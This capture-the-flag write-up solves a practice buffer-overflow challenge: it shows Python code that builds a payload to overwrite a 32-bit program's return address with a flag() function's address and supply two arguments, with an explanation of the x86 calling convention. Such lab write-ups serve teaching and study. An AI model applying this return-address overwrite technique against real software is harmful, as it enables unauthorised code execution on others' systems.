 - - - -
### Problem:
Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e on the shell server. Source.

- - - -
### Goal:
Buffer overflow to get to the `flag()` function. Pass the correct arguments to the function to get the CTF flag.

- - - -
### Solution:
Similar to previous overflows, we will overflow the buffer and overwrite the return address to the address of the flag function. We found the address of the flag function by running `nm vuln` and this results in the following exploit so far:

```python
cmd = b'A' * 176        # buffer
cmd += b'B' * 4         # var -> .rodata:aFlagFileIsMiss+44
cmd += b'C' * 4         # var -> .got.plt:_GLOBAL_OFFSET_TABLE_
cmd += b'D' * 4         # var -> [stack]:FFF4D618
cmd += p32(0x080485e6)  # overwrite return
```

Now we need to pass arguments to the flag function. Observe the x86 calling convention shown below:
![x86 Calling Convention](https://www.cs.virginia.edu/~evans/cs216/guides/stack-convention.png)

Once we are inside the `flag()` function we obtain the 1st argument by doing `ebp + 8` and the 2nd argument by doing `ebp + 12`.

So naturally the next question is ... where will `ebp` be when we are in the `flag()` function. In short, based on the prologue of a new function call, `ebp` will point to the beginning of the overwriten return in our exploit.

Therefore, we need to add an extra four bytes after the overwritten return address before the first argument.

```python
cmd = b'A' * 176        # buffer
cmd += b'B' * 4         # var -> .rodata:aFlagFileIsMiss+44
cmd += b'C' * 4         # var -> .got.plt:_GLOBAL_OFFSET_TABLE_
cmd += b'D' * 4         # var -> [stack]:FFF4D618
cmd += p32(0x080485e6)  # overwrite return
cmd += b'E' * 4
cmd += p32(0xDEADBEEF)  # arg1
cmd += p32(0xC0DED00D)  # arg2
```
